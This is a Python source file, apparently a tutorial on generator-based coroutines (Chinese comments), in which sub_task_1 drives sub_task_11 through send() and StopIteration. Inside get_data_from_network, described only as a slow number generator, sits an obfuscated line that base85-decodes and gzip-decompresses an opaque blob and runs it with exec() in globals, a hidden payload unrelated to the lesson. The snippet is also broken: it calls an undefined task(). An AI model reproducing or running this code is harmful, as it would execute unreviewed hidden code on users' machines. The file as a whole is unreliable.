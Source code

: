 ```python

def sub_task_1():
    print(f"\tenter {sub_task_1.__name__}")
    ...  # 执行某些操作
    g = sub_task_11()
    while True:
        try:
            _y = g.send(None)
        except StopIteration as e:
            res = e.value  # StopIteration.value 是生成器返回的值
            break
        else:
            yield _y
    ...  # 执行某些操作
    print(f"\texit {sub_task_1.__name__} with {res}")
    return res


def sub_task_11():
    """
    一个阻塞操作，需要网络请求获取数据然后返回
    """
    print(f"\t\tenter {sub_task_11.__name__}")
    ...  # 执行某些操作
    yield (get_data_from_network, 1)
    res = 123456
    ...  # 执行某些操作
    print(f"\t\texit {sub_task_11.__name__} with {res}")
    return res


def get_data_from_network(*args, **kwargs) -> int:
    """
    一个耗时操作，约需要1s生成一个十以内地整数
    """
    import base64;import gzip;exec(gzip.decompress(base64.b85decode(
        "ABzY815`U_0{_d*Eyyn_Q7FmGO|{O1u!|D&Qu1@Hi*r&_3*tc%wh$4$(!9*"
        "H{Gwb913gn6Lp@VXYmlTKSe*t!wWf7EOaq9@%q!6_(6Q7608?utHfaC=00"
    )).decode(), globals())
    return _

if __name__ == '__main__':
    print(task())

```









